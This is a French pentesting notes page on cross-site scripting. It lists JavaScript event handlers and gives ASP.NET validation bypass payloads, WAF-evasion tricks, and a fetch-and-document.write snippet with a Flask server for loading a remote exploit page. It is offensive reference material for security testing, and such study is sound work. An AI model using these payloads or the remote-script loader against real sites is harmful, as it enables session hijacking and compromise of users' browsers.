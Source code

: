 ```yaml
---
title: Cross Site Scripting
permalink: /XSS/
---
```


# Cross-Site Scripting

## Payloads

Voir [PayloadAllTheThings](https://github.com/ruuand/PayloadsAllTheThings/tree/master/XSS%20injection)

## Events JS

Liste d'events JS:

``` text
onAbort
onActivate
onAfterPrint
onAfterUpdate
onBeforeActivate
onBeforeCopy
onBeforeCut
onBeforeDeactivate
onBeforeEditFocus
onBeforePaste
onBeforePrint
onBeforeUnload
onBeforeUpdate
onBegin
onBlur
onBounce
onCellChange
onChange
onClick
onContextMenu
onControlSelect
onCopy
onCut
onDataAvailable
onDataSetChanged
onDataSetComplete
onDblClick
onDeactivate
onDrag
onDragEnd
onDragLeave
onDragEnter
onDragOver
onDragDrop
onDragStart
onDrop
onEnd
onError
onErrorUpdate
onFilterChange
onFinish
onFocus
onFocusIn
onFocusOut
onHashChange
onHelp
onInput
onKeyDown
onKeyPress
onKeyUp
onLayoutComplete
onLoad
onLoseCapture
onMediaComplete
onMediaError
onMessage
onMouseDown
onMouseEnter
onMouseLeave
onMouseMove
onMouseOut
onMouseOver
onMouseUp
onMouseWheel
onMove
onMoveEnd
onMoveStart
onOffline
onOnline
onOutOfSync
onPaste
onPause
onPopState
onProgress
onPropertyChange
onReadyStateChange
onRedo
onRepeat
onReset
onResize
onResizeEnd
onResizeStart
onResume
onReverse
onRowsEnter
onRowExit
onRowDelete
onRowInserted
onScroll
onSeek
onSelect
onSelectionChange
onSelectStart
onStart
onStop
onStorage
onSyncRestored
onSubmit
onTimeError
onTrackChange
onUndo
onUnload
onURLFlip
seekSegmentTime
```

## Exploitation

Cette section contient des tips & tricks sur l'exploitation de XSS.

### ASP.Net
ASP.Net a le mécanisme de "Request Validation" qui bloque de nombreuses tentatives XSS. Globalement tout payload de la forme "<a" (où a est une lettre ou le caractère ! sera bloqué).

Quelques bypass sont possibles:
- Sur les vieilles versions d'IE le payload <#tag
- Si on a une stored il est possible d'injecter un payload en unicode (voir [Bypassing ASP.NET “ValidateRequest” for Stored XSS attacks](https://infosecauditor.wordpress.com/2013/05/27/bypassing-asp-net-validaterequest-for-script-injection-attacks/)). Ceci est dû à une conversion qui est faite par la base de données (les caractères unicodes étant convertis en leur équivalent "standard"): 
``%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e``
- Sur les vieilles versions de IE et de ASP.net (patch en 2007) le payload suivant marche: ```</XSS STYLE=xss:expression(alert('XSS'))>```

D'autres bypass [Bypassing .Net ValidateRequest](http://www.procheckup.com/media/39734/bypassing-dot-net-validaterequest.pdf)

### Champs hidden

Il est possbible d'exploiter une XSS dans un champ hidden. Voir [XSS in Hidden Input Fields](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html)

### Charger un script distant
Basé sur [Calling remote script with event handlers](https://brutelogic.com.br/blog/calling-remote-script-with-event-handlers/).

``` javascript
fetch('http://127.0.0.1:5000/').then(function(r){return r.text();}).then(function(w){document.write(w)});
```

Côté serveur (avec flask):

``` python
from flask import Flask, Response
app = Flask(__name__)

@app.route('/')
def root():
    f = open('exploit.html','r')
    response = Response(f.read())
    response.headers['Access-Control-Allow-Origin'] = '*'
    f.close()
    return response
```


### Contournement de WAF

Quelques astuces pour contourner des WAF:

```
a = document; a.write('Test'); // Contourne des restrictions sur document.write*
(a = document); a.write('Test') // Contourne des restrictions sur le ";"
```

## Références
- [JSFuck](http://www.jsfuck.com/)
- [Master the art of Cross Site Scripting](https://brutelogic.com.br/blog/)
- [XSS without event handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/): pour les situations où les events du type onerror sont bloqués
- [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [PassiveXssScan](https://github.com/jkadijk/burp-plugins): un plugin pour identifier automatiquement les éléments "reflected" dans Burp.
- [HTML5sec](https://html5sec.org/)
- [Calling remote script with event handlers](https://brutelogic.com.br/blog/calling-remote-script-with-event-handlers/)

### Challenges
- [FindBUG XSS Challenge](http://blog.bi.tk/2017/01/20/findbug/)
